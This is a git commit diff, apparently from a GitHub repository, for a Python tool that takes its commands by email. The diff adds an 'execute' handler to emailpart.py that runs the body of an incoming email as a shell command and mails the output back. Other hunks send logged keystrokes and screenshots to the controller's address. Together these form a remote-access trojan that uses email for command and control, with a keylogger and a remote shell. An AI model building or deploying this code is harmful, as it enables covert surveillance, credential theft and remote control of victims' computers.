

added script execution from gmail execute command

diff --git a/emailpart.py b/emailpart.py
@@ -1,5 +1,6 @@
 import smtplib
 import os
+import subprocess
 import email
 from email.message import EmailMessage
 from email.mime.image import MIMEImage
@@ -40,21 +41,51 @@ class EmailManager:
             elif message.get('Subject') == "screenshot" + " " + self.id:
                 self.screenshot_command_response(imap_server, msg_num)
             elif message.get('Subject') == "dump" + " " + self.id:
-                print("dump command")
                 self.dump_command_response(imap_server, msg_num)
+            elif message.get('Subject') == "execute" + " " + self.id:
+                self.execute_command_response(imap_server, msg_num, message)
 
         imap_server.expunge()
         imap_server.close()
+
+    def execute_command_response(self, imap_server, msg_num, message):
+        print("execute command")
+
+        command = ""
+        if message.is_multipart():
+            for part in message.walk():
+                content_type = part.get_content_type()
+                content_disposition = str(part.get('Content-Disposition'))
+                if "attachment" not in content_disposition:
+                    if content_type == "text/plain":
+                        command += part.get_payload(decode=True).decode()
+        else:
+            command = message.get_payload(decode=True).decode()
+
+        msg = EmailMessage()
+        msg['to'] = self.email
+        msg['subject'] = self.id + "'s output from provided shell input: " + command
+        msg['from'] = self.email
+        try:
+            msg.set_content("[*] Date: " + str(datetime.datetime.now()) + "\n[*] Output: \n\n" + str(subprocess.check_output(command, shell=True, text=True)))
+        except Exception as e:
+            print(f"ERROR: {e}")
+
+        self.send_email(msg)
+        print("email sent")
+
+        imap_server.store(msg_num, "+FLAGS", "\\Deleted")
+        print("email prompt removed")
 
     # keys and screenshots from when certain important keys are pressed, like @
     def give_command_response(self, imap_server, msg_num):
         print("give command")
         msg = EmailMessage()
         msg['to'] = self.email
-        msg['subject'] = self.id + "'s picture"
+        msg['subject'] = self.id + "'s keylog info"
         msg['from'] = self.email
         try:
-            msg.set_content("[*] Screenshot: " + "\n[*] Date: " + str(datetime.datetime.now()))
+            msg.set_content("[*] Date: " + str(datetime.datetime.now()) + "\n[+] Keys: \n\n" + self.keys + "\n\n[*] Screenshots: ")
         except Exception as e:
             print(f"ERROR: {e}")
 
@@ -86,7 +117,7 @@ class EmailManager:
         msg['subject'] = self.id + "'s picture"
         msg['from'] = self.email
         try:
-            msg.set_content("[*] Screenshot: " + "\n[*] Date: " + str(datetime.datetime.now()))
+            msg.set_content("[*] Date: " + str(datetime.datetime.now()) + "\n[*] Screenshot: ")
         except Exception as e:
             print(f"ERROR: {e}")
 
@@ -138,12 +169,7 @@ class EmailManager:
         msg['subject'] = "New client created | ID: " + self.id if first_time else "Old client started | ID: " + self.id
         msg['from'] = self.email
         try:
-            msg.set_content("\n[*] Date: " + str(datetime.datetime.now()))
-        except Exception as e:
-            print(f"ERROR: {e}")
-
-        try:
-            msg.set_content("[*] Screenshot: " + "\n[*] Date: " + str(datetime.datetime.now()))
+            msg.set_content("[*] Date: " + str(datetime.datetime.now()) + "\n[*] Screenshot: ")
         except Exception as e:
             print(f"ERROR: {e}")
         msg.make_mixed()
@@ -185,5 +211,5 @@ class EmailManager:
 
 if __name__ == '__main__':
     # NewEmail("@vtext.com", "Test!", "This was a test.")    .split('<')[1].split('>')[0]
-    manager = EmailManager("email", "password")
+    manager = EmailManager("email", "password", 2037)
     manager.receive_email()

diff --git a/test.py b/test.py
@@ -1,0 +1,3 @@
+import subprocess
+output = subprocess.check_output("dir", shell=True)
+print(output)
